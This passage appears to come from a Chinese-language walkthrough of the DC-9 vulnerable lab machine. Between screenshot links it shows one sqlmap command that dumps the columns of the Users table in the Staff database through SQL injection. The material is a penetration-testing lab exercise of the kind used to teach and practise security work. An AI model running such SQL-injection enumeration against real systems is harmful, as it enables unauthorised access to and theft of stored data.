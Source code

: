 ![image-20230811195050655](./imgs/image-20230811195050655.png)

继续暴字段

```bash
sqlmap -r dc9.txt -D  Staff  -T Users --columns --batch
```

![image-20230811195252359](./imgs/image-20230811195252359.png)
